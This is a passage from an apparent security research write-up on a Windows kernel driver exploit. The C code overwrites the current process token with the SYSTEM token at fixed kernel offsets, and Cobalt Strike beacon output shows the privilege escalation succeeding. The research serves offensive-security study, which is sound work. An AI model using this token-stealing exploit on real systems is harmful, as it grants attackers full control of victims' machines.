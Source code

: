**Overwrite our token with `PsInitialSystemProcess's` token**

The last step is to adjust the code in the step above to overwrite the token if our `_EPROCESS` is found. We overwrite the token of our own process, at offset `0x4b8`, with the token of the system process.

{% highlight c %}
uint8_t* activeProcessLinks = memoryRead(hDevice, systemProcessAddress + 0x448);
PRINT_DEBUG("Identified active process links at %p.", activeProcessLinks);

while (true) {
    if (memoryRead(hDevice, activeProcessLinks - 8) == GetCurrentProcessId()) {
        uint8_t* currentProcess = activeProcessLinks - 0x448;
        PRINT_DEBUG("Found current process (beacon) at %p.", currentProcess);
        memoryWrite(hDevice, currentProcess + 0x4b8, systemProcessToken);
        PRINT_DEBUG("Setting current process (beacon) token to system process token.");
        PRINT_DEBUG("Exploit executed successfully! You are now SYSTEM.");
        break;
    }

    activeProcessLinks = memoryRead(hDevice, activeProcessLinks);
}
{% endhighlight %}

### 4. Usage

If we compile our code and load it into Cobalt Strike via its script manager, we can use it to escalate privileges (if the vulnerable driver is installed and running). This can be done as seen in the command and corresponding output below.

{% highlight plain %}
beacon > getuid
[*] Tasked beacon to get userid
[+] host called home, sent : 8 bytes
[*] You are WINDOWS-10\WDKRemoteUser
beacon > kernel_mii
[+] host called home, sent : 21626 bytes
[+] received output
Identifying if vulnerable kernel driver is installed.
Identified 'PsInitialSystemProcess' at 0xCFB420.
Identified 'ntoskrnl.exe' base address at 0x4FC00000.
Identified system process pointer address at 0XFFFFF801508FB420.
Identified system process address at 0XFFFF8C05E565D040.
Identified system process token at 0XFFFFA30329445850.
Identified active process links at 0XFFFF8C05E570C4C8.
Found current process (beacon) at 0XFFFF8C05EB973080.
Setting current process (beacon) token to system process token.
Exploit executed successfully! You are now SYSTEM.
beacon > getuid
[*] Tasked beacon to get userid
[+] host called home, sent : 8 bytes
[*] You are NT AUTHORITY\SYSTEM (admin)
{% endhighlight %}

### 5. Result

The results of this research are [available](https://github.com/tijme/kernel-mii){:target="_blank"}{:rel="noopener noreferrer"} on GitHub. This includes the compiled Beacon Object File and PE-file.
